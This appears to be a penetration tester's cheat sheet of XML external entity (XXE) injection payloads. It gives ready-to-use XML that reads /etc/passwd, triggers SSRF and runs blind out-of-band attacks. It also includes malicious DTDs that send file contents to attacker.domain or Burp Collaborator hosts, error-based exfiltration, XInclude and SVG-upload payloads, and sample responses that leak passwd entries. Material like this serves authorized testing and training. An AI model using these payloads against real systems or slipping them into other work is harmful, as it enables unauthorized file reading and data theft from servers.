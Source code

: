 ```yaml
---
title : "XXE Injection"
pre : '<i class="fa fa-file-excel"></i> '
description : "XXE injection payloads."
date : 2022-03-11T18:01:46+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## XML external entity (XXE) injection

## Retrieve files

Add DOCTYPE line to XML and call entity via a value used in the app.

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

## Invoke SSRF

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<foo>&xxe;</foo>
```

## Blind XXE

If response is not returned to client, we can use Burp collaborator for out-of-band testing ([read about OAST](https://portswigger.net/burp/application-security-testing/oast)).

### Blind XEE using OAST

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "http://SUBDOMAIN.burpcollaborator.net/"> ]>
<foo>&xxe;</foo>
```

### Blind XEE using OAST via XML parameter entities

Add DOCTYPE line to XML with Burp collaborator URL and call XML parameter entity via a value used in the app (mind the '%' in both lines).

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY % xxe SYSTEM "http://SUBDOMAIN.burpcollaborator.net/"> %xxe; ]>
<foo>%xxe;</foo>
```

### Blind XXE to exfiltrate data via OAST

In order to exfiltrate data using XEE via OAST, you need to host DTD.
Note that files with newlines (e.g. '/etc/passwd') cannot be exfiltrated this way.

First host malicious DTD (e.g. 'ht<span>tp://</span>attacker.domain/dtd'):

```plain
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://SUBDOMAIN.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Then inject XEE in HTTP request:

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [<!ENTITY % xxe SYSTEM "http://attacker.domain/dtd"> %xxe;]>
```

### Blind XXE to exfiltrate data via error messages

Works if the app returns the resulting error message within its response. It's possible to exfiltrate files with newlines this way.

First host malicious DTD (e.g. 'ht<span>tp://</span>attacker.domain/dtd'):

```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Then inject XEE in HTTP request:

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [<!ENTITY % xxe SYSTEM "http://malicious.domain/dtd"> %xxe;]>
```

Example HTTP response:

```plain
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1339

"XML parser exited with non-zero code 1: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
[...]
```

### Blind XXE by repurposing a local DTD

See [PortSwigger Academy](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-by-repurposing-a-local-dtd)

## Exploiting XInclude to retrieve files

Often you don't see the XML from a client's perspective. Instead, the app backend embeds user input into an XML document. Classic XXE will not work, but we can use XInclude for this.

```plain
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Example in HTTP request (injecting via 'productId' example parameter):

```plain
POST /product/stock HTTP/1.1
Host: example.net
Content-Type: application/x-www-form-urlencoded
Connection: close

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Example HTTP response:

```plain
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1278

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[...]
```

## XXE via file upload

Upload SVG file containing XXE code:

```plain
<?xml version="1.0" standalone="yes"?><!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## XXE via modified content type

Some apps tolerant changing the content type to XML.

Normal HTTP request:

```plain
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Request content changed to XML, opening possible XXE attack surface:

``` plain
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

## URL List

* [Portswigger.net academy - XXE injection](https://portswigger.net/web-security/xxe)
